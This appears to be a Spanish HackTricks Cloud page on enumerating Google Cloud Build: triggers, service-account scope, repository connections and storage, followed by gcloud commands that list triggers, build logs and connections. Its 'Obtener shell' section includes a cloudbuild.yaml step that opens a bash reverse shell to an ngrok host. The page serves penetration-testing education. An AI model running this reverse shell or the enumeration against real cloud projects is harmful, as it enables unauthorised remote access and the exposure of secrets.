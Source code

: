 # GCP - Enumeración de Cloud Build

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de HackTricks en AWS)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

Google Cloud Build es una plataforma de CI/CD gestionada que **automatiza la construcción de software** y los procesos de lanzamiento, integrándose con **repositorios de código fuente** y admitiendo una amplia gama de lenguajes de programación. Permite a los desarrolladores **construir, probar e implementar código automáticamente** al mismo tiempo que ofrece flexibilidad para personalizar los pasos de construcción y flujos de trabajo.

Cada Desencadenador de Cloud Build está **relacionado con un Repositorio de Cloud o conectado directamente con un repositorio externo** (Github, Bitbucket y Gitlab).

{% hint style="success" %}
No pude ver ninguna forma de robar el token de Github/Bitbucket desde aquí o desde Repositorios de Cloud porque cuando se descarga el repositorio se accede a través de una URL de [https://source.cloud.google.com/](https://source.cloud.google.com/) y Github no es accedido por el cliente.
{% endhint %}

### Eventos

Cloud Build puede ser desencadenado si:

* **Se hace push a una rama**: Especificar la rama
* **Se hace push a una nueva etiqueta**: Especificar la etiqueta
* **Pull request**: Especificar la rama que recibe el PR
* **Invocación manual**
* **Mensaje Pub/Sub**: Especificar el tema
* **Evento de Webhook**: Expondrá una URL HTTPS y la solicitud debe ser autenticada con un secreto

### Ejecución

Hay 3 opciones:

* Un yaml/json **especificando los comandos** a ejecutar. Por lo general: `/cloudbuild.yaml`
* Solo uno que puede ser especificado "en línea" en la consola web y en la CLI
* Opción más común
* Relevante para el acceso no autenticado
* Un **Dockerfile** para construir
* Un **Buildpack** para construir

### Permisos de SA

La **Cuenta de Servicio tiene el alcance `cloud-platform`**, por lo que puede **utilizar todos los privilegios**. Si **no se especifica una SA** (como al hacer submit) se utilizará la **SA predeterminada** `<núm-proyecto>@cloudbuild.gserviceaccount.com`.

Por defecto no se otorgan permisos, pero es bastante fácil darle algunos:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Aprobaciones

Es posible configurar un Cloud Build para **requerir aprobaciones para las ejecuciones de construcción** (deshabilitado de forma predeterminada).

### Conexiones y Repositorios

Las conexiones se pueden crear en:

* **GitHub:** Mostrará un aviso de OAuth pidiendo permisos para **obtener un token de Github** que se almacenará dentro del **Gestor de Secretos.**
* **GitHub Enterprise:** Pedirá instalar una **GithubApp**. Se creará y almacenará un **token de autenticación** de su host de GitHub Enterprise en este proyecto como un secreto del **Gestor de Secretos.**
* **GitLab / Enterprise:** Necesitas **proporcionar el token de acceso a la API y el token de acceso a la API de Lectura** que se almacenarán en el **Gestor de Secretos.**

Una vez que se genera una conexión, puedes usarla para **vincular repositorios a los que la cuenta de Github tiene acceso**.

Esta opción está disponible a través del botón:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Ten en cuenta que los repositorios conectados con este método están **disponibles solo en Triggers que utilizan la 2ª generación.**
{% endhint %}

### Conectar un Repositorio

Esto no es lo mismo que una **`conexión`**. Esto permite **diferentes** formas de obtener **acceso a un repositorio de Github o Bitbucket** pero **no genera un objeto de conexión, sino que genera un objeto de repositorio (de 1ª generación).**

Esta opción está disponible a través del botón:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Almacenamiento

A veces Cloud Build **generará un nuevo almacenamiento para almacenar los archivos del desencadenador**. Esto sucede, por ejemplo, en el ejemplo que ofrece GCP con:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket de almacenamiento llamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) se crea para almacenar un archivo `.tgz` con los archivos a utilizar.

### Obtener shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeración

Podrías encontrar **información sensible en las configuraciones de compilación y registros**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Escalada de Privilegios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acceso no Autenticado

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post Explotación

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
